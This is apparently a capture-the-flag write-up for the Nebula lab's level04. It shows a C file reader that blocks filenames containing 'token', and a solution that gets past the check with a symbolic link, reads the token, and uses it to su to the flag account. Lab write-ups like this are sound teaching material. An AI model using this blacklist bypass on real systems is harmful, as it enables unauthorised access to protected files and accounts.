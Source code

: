 # Level04

## Task

>This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

>To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Solution

The binary looks for a file and opens it if you have permissions. to open the `/home/flag04/token` i create a symbolic link to `/tmp/test` and am then able to open the file with the binary.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/test
```

```
level04@nebula:/home/flag04$ ./flag04 /tmp/test
06508b5e-8909-4f38-b630-fdb148a848a2
```

```
level04@nebula:/home/flag04$ su flag04
Password: 06508b5e-8909-4f38-b630-fdb148a848a2
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
